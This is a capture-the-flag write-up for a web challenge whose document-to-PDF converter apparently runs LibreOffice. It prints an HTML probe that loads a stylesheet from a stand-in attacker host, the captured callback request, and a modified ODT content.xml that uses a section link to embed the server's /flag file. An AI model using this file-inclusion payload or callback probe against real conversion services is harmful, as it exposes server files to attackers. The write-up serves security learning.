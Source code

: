 # Document-Converter

> Free converter for everyone.\
> You find the flag at : /flag\
> **Link:** http://20.233.9.240:1920

We are given a black-box web challenge. This application allows us to upload files in various formats (.doc, .jpg, etc.) and converts them into a PDF for us to download.

![](<../../.gitbook/assets/Screenshot 2022-04-11 at 11.22.17 AM.png>)

The first thing that came to mind was whether I can upload arbitrary HTML, since HTML has plenty of potential SSRF / file inclusion vectors. Sure enough, when I uploaded the following HTML file, I got a callback to my server.

```markup
<link rel=stylesheet href='http://ATTACKER.COM/exploit.css'>
<html>
    <body>
        Hello world.
    </body>
</html>
```

The `User-Agent` showed that LibreOffice was making the callback.

```http
OPTIONS /exploit.css HTTP/1.1
Host: a255-42-60-216-15.ngrok.io
User-Agent: LibreOffice
Cache-Control: no-cache
Pragma: no-cache
X-Forwarded-For: 20.233.9.240
X-Forwarded-Proto: http
Accept-Encoding: gzip
```

Interesting! So LibreOffice is being used to convert the documents. I searched around a bit and came across [this writeup](https://www.l0l.xyz/sec/2021/01/05/1-webdesktop-root-ssrf.html) on SSRF using LibreOffice documents.

We create a sample LibreOffice word document, `poc.odt`. After unzipping the ODT file, we can modify the `content.xml` file to include our payload. We create a `text:section` tag that links to the `/flag` file.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<office:document-content ...>
    <office:body>
       <office:text>
       
                ...
                
                <text:section text:name="string"><text:section-source
                                xlink:href="file:///flag" xlink:type="simple" xlink:show="embed"
                                xlink:actuate="onLoad"/></text:section>
        </office:text>
    </office:body>
</office:document-content>
```

Then, zipping the files again into a `modified.odt` gives us our payload. Uploading this to the server gives us the flag!

![](../../.gitbook/assets/Screenshot\_2022-04-10\_at\_8.00.58\_PM.png)
